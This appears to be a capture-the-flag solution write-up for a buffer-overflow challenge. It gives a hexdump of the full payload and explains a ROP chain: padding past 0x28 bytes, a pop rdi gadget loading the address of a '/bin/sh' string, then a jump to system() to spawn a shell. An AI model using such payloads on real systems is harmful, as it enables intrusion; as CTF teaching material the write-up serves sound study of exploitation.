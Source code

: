 # solution
Payload we need to send to the tool is:

00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00000020  42 42 42 42 42 42 42 42  cb 05 40 00 00 00 00 00  |BBBBBBBB..@.....|
00000030  91 10 60 00 00 00 00 00  d8 05 40 00 00 00 00 00  |..`.......@.....|
00000040  0a                                                |.|
00000041


The 0x41 overflow the buffer and after 0x28 * "A" we have control of RIP.
We create a mini ROP chain consisting of a pop rdi at 0x4005cb, followed by the value we want to pop to
rdi. We see that there is a lost string in the .data section at 0x601060 which mentions /bin/sh. We pop exactly
that suffix into rdi using address 0x601091. Then we just jump the convenient call to system() at 0x4005d8 which
wants it's first argument (/bin/sh) in rdi. Profit.

see solution.py